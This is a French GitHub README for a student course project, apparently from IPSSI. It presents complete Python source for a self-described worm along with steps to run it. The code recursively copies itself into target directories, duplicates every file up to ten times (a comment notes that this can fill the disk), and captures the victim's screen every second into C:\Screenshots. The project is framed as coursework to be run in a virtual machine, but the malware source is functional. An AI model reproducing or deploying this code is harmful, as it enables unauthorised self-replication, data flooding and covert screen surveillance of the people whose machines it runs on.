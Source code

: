 # Vers-Python-IPSSI
<!-- Image centrée -->

<div align="center">

![CAPTURE](https://zupimages.net/up/22/48/cf4u.png)

</div>

<!-- --------------------------- -->

**Vers-Python-IPSSI** a été réalisé dans le cadre pédagogique de l'IPSSI avec un projet sur 1,5 jours. 

>Un ver informatique est un logiciel malveillant qui se reproduit sur plusieurs ordinateurs en utilisant un réseau informatique comme Internet

**Pour un meilleur confort, vous pouvez vous rendre sur le Github du projet : https://github.com/IPSSI-Jean/Ransomware-Python-IPSSI afin de bénéficier d'une vue globale sur le projet et sur l'affichage de ce README.**

# Prérequis
- Visual studio code

- Python3

- Connaissances basique / intermédiaire en Python

Il est recommandé d'exécuter ce programme dans un environnement virtuel, il est possible d'en mettre un en place à l'aide des logiciels suivants : 
- Virtualbox --> Sur une VM Windows / Linux
- VMWare workstation pro --> Sur une VM Windows / Linux
- ...

# Description du projet

### Dépendances

Le projet nécessite l'installation de dépendances Python, ces dernières sont disponibles dans le fichier ```requirements.txt```.

```
pip install -r requirements.txt
```

>Il sera également nécessaire de relancer l'interpréteur de code afin de prendre en compte l'installation.

### Architecture du projet 

Le projet repose sur 1 fichiers Python : 

- ```vers.pyw``` --> Qui contient le code du vers (exécutable avec un double clic comme un .EXE, pour tester)

### Fonctionnement du projet

Le projet déroule en plusieurs étapes :

1) Exécution du code par la victime

2) Le vers va alors **analyser le système** (répertoires / sous répertoires données )

3) Le vers **va alors se répliquer dans les répertoires cibles** de la victime

4) Le vers va prendre des screenshots chaques secondes et les stocker dans C:\Screenshots 


### Mise en réseau
Ce projet se déroule entièrement en **local**.

# Axes d'améliorations du code
Après la phase de réalisation du projet, le professeur nous a demandé une personnalisation du code afin d'améliorer ce dernier.

Pour ce projet, les améliorations suivantes ont été mises en place :

- [x] Chaque seconde, le vers va prendre des captures d'écran et les stocker dans C:\Screenshots ( pour besoins des tests, il est possible d'envoyer les screenshots sur un serveur distant)
- [x] &&&
- [x] &&&

# Mise en place de l'environement de travail

Il est conseillé, pour travailler dans de bonnes conditions, d’ouvrir un **répertoire de travail** ( sur le bureau ou autre ) sur Visual Studio Code

Une fois le répertoire créé, dans visual studio code il faut cliquer sur ```Fichier``` → ```Ouvrir le dossier```

Une fois cette étape réalisée il suffit d'importer les fichiers .py dans le répertoire de travail et l'exécution est désormait possible

# Explications sur le code

## Fonctions

Les fonctions sont toutes dans une classe, appelée ```Vers```, les fonctions en son sein permettent :
- Fonction ```__init__``` = d'initialiser le vers
  - De définir où commencer la recherche de répertoires (la valeur par défaut est définie sur le répertoire racine)
  - De donner la possibilité de transmettre une liste de répertoires cibles initiaux. Par défaut c'est une liste vide []
  - De définir le nombre d'instances que le ver créera pour chaque fichier existant dans un répertoire

- Fonction ```lister_repertoires``` = d'analyser le système
  - Cette partie va nous permettre d’accéder au contenu des répertoires spécifiés précédemment. C’est-à-dire tous les répertoires et sous-répertoires y contenu. 

- Fonction ```creation_vers``` = Permet de répliquer le ver dans les répertoires cibles.

- Fonction ```copier_fichiers_existants``` = Permet de dupliquer les fichiers le nombre de fois la valeur que nous avons de l'argument itération.

- Fonction ```create_directory``` = Permet de créer un répertoire dans le disque C:\ ( nécessite les droits d'admin )

- Fonction ```screenshots``` = Permet de prendre une capture d'écran toutes les secondes ( le time.sleep(1) permet de définir le nombre de secondes d'intervalles )

- Fonction ```start_vers``` = Permet d'appeler toutes les fonctions créées précédemment

```python
class Vers:
        #Initialisation 
        def __init__(classVers, path=None, repertoire_cible=None, replication=None):
            # Définit où commencer la recherche de répertoires (la valeur par défaut est définie sur le répertoire racine)
            if isinstance(path, type(None)):
                classVers.path="/"
            else:
                classVers.path = path
            # Possibilitée de transmettre une liste de répertoires cibles initiaux. Par défaut c'est une liste vide []
            if isinstance(repertoire_cible, type(None)):
                classVers.repertoire_cible=[]
            else:
                classVers.repertoire_cible = repertoire_cible
            # Définit le nombre d'instances que le ver créera pour chaque fichier existant dans un répertoire
            if isinstance(repertoire_cible, type(None)):
                classVers.replication = 10
            else:
                classVers.replication = replication

            # Prendre le chemin absolu
            classVers.own_path = os.path.realpath(__file__)
        # Cette fonction va nous permettre d’accéder au contenu des répertoires spécifiés précédemment. C’est-à-dire tous les répertoires et sous-répertoires y contenu. 
        def lister_repertoires(classVers, path):
            classVers.repertoire_cible.append(path)
            fichier_dans_le_repertoire = os.listdir(path)

            for file in fichier_dans_le_repertoire:
                # Évite les répertoires / fichiers cachés
                if not file.startswith('.'):
                    # Prends le PATH complet
                    path_absolu = os.path.join(path, file)
                    print(path_absolu)

                    if os.path.isdir(path_absolu):
                        classVers.lister_repertoires(path_absolu)
                    else:
                        pass
        #Fonction de création du vers
        # Permet de répliquer le ver dans les répertoires cibles.
        def creation_vers(classVers):
            for directory in classVers.repertoire_cible:
                destination = os.path.join(directory, "vers.py")
                # Copie le script dans le nouveau répertoire avec un noms similaires
                shutil.copyfile(classVers.own_path, destination)

        def copier_fichiers_existants(classVers):
            # La méthode suivante sera utilisée pour dupliquer les fichiers le nombre de fois la valeur que nous avons de l'argument itération. 
            # Il est possible de mettre un grand nombre pour que le disque dur soit plein.
            for directory in classVers.repertoire_cible:
                file_list_in_dir = os.listdir(directory)
                for file in file_list_in_dir:
                    abs_path = os.path.join(directory, file)
                    if not abs_path.startswith('.') and not os.path.isdir(abs_path):
                        source = abs_path
                        for i in range(classVers.replication):
                            destination = os.path.join(directory,(file+str(i)))
                            shutil.copyfile(source, destination)
        #Créer un répertoire "Screenshot" dans C:\
        def create_directory(classVers):
            repertoire_parent = "C:\\"
            repertoire_a_creer = "Screenshots"
            classVers.fullpath_directory = os.path.join(repertoire_parent, repertoire_a_creer)
            if not os.path.exists(classVers.fullpath_directory):
                os.mkdir(classVers.fullpath_directory)
        #Captures saves dans le répertoire "Screenshot" dans C:\, incrémentées par 1
        def screenshots(classVers):
            i=0
            while True:
                screenshot = ImageGrab.grab()
                filename = (os.path.join(classVers.fullpath_directory, "Screenshot"+str(i+1)+".png"))
                screenshot.save(filename) 
                time.sleep(1)
                i=i+1
        #Fonction de lancement de toutes les fonctions du vers
        def start_vers(classVers):
            classVers.lister_repertoires(classVers.path)
            classVers.creation_vers()
            classVers.copier_fichiers_existants()
            classVers.create_directory()
            classVers.screenshots()

 ```

## Traitement

Cette partie permet de définir le PATH à attaquer et d'appeler la fonction qui lance toutes les fonctions sur le PATH donné.

```python
if __name__=="__main__":
    attack_directory = os.path.abspath(r"C:\Users\ADM_VM01\Desktop\TEST FOLDER")
    VersFinal = Vers(path=attack_directory)
    VersFinal.start_vers()
 ```
